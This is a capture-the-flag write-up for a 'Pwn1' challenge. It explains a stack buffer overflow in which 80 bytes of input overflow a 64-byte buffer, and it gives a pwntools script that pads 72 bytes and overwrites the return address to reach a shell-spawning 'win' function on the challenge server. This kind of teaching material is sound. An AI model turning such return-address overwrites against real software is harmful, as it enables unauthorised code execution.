

# Pwn1
We have been provided with a connection to a server. First of all, our objective is to decompile the binary. Within the `main` function, the program accepts user input and then returns a fake flag.<br>
<br>

We can also observe that there is another function called <i>win</i> which returns shell. <br>
<br>
### Solution
The code takes 80 bytes of input from the user and attempts to fit it into a 64-byte character table. This leads to an overflow, which we can exploit to redirect the code execution to the `win` function. To achieve this, we simply need to provide a payload consisting of 72 bytes of padding followed by an 8-byte address corresponding to the `win` function. This will overwrite the instruction pointer and redirect the code execution.
<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?

By examining the disassembly of the `main` function, we can observe that it initially creates a 64-byte stack. Before returning, it frees up the stack using the leave instruction, which is a shorthand for the following:
```
mov rsp, rbp
pop rbp
```
<br>
When we provide 80 bytes of input to this 64-byte stack, it overflows and overwrites the addresses after $rbp of `main`. After the `leave` instruction, the address of the win function remains at the top of the stack. Now `ret` instruction will simply return to the address on the top of the stack.
